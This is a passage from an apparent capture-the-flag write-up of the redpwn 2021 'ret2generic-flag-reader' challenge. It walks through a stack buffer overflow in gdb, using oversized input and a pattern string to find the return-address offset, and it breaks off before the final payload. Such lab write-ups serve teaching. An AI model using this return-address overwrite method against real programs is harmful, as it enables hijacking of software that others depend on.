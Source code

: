 ```
   0x000000000040142f <+138>:   ret
End of assembler dump.
```

We see again multiple calls to `<puts@plt>` and right after a call to
`<gets@plt>`. There is no `cmp` and `jne` to be found in this challenge though.

The goal is to overwrite the _return adress_. This is a memory adress also
stored in memory, and the program will move execution to that memory adress
once it sees a `ret` instruction. In this 'vanilla' state, the return adress
always goes to the assembly equivalent of an `exit()` function. Let's see if we
can overwrite it by giving too much input:

```
(gdb) break *0x000000000040142f
Breakpoint 1 at 0x40142f
(gdb) run < <(python3 -c "print('a' * 56)")
-- Breakpoint 1 hit --
(gdb) info registers
rax            0x0                 0x0
rbx            0x401430            0x401430
rsi            0x7ffff7f7d883      0x7ffff7f7d883
rdi            0x7ffff7f804e0      0x7ffff7f804e0
rbp            0x6161616161616161  0x6161616161616161
rsp            0x7fffffffd898      0x7fffffffd898
rip            0x40142f            0x40142f <main+138>
```

As you can see, the $rbp register is completely overwritten with `0x61`'s.
Let's check the $rsp register to see where the `main()` function tries to go
after `ret`:

```
(gdb) run
Starting program: ret2generic-flag-reader
alright, the rob inc company meeting is tomorrow and i have to come up with a new pwnable...
how about this, we'll make a generic pwnable with an overflow and they've got to ret to some flag reading function!
slap on some flavortext and there's no way rob will fire me now!
this is genius!! what do you think?
a0a1a2a3a4a5a6a7a8a9b0b1b2b3b4b5b6b7b8b9c0c1c2c3
-- Breakpoint 1 hit --
(gdb) x/1gx $rsp
0x7fffffffd898: 0x3363326331633063
```

Let's use cyberchef to see what `0x3363326331633063` is in ascii!

![](/img/redpwn2021/cyberchef1.png)

Hmm, it's backwards. Let's reverse it!

![](/img/redpwn2021/cyberchef2.png)

Let's find the adress of the super generic flag reading function with gdb.
